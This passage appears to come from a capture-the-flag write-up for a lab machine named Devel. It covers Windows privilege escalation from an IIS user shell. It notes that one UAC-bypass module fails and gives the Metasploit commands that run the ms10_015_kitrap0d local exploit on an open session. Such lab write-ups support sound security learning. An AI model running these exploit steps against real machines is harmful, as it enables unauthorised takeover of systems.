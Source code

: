 ![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Devel/Screenshots/potentialdevel.png)

Going down the list, `bypassauc_eventvwr` fails due to the IIS user not being a part of the
administrators group, which is the default and to be expected. The second option,
`ms10_015_kitrap0d`, does the trick.

###### code

```sh
use exploit/windows/local/ms10_015_kitrap0d
options
sessions
set SESSION 7
run
```

###### output

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Devel/Screenshots/kitproddevel.png)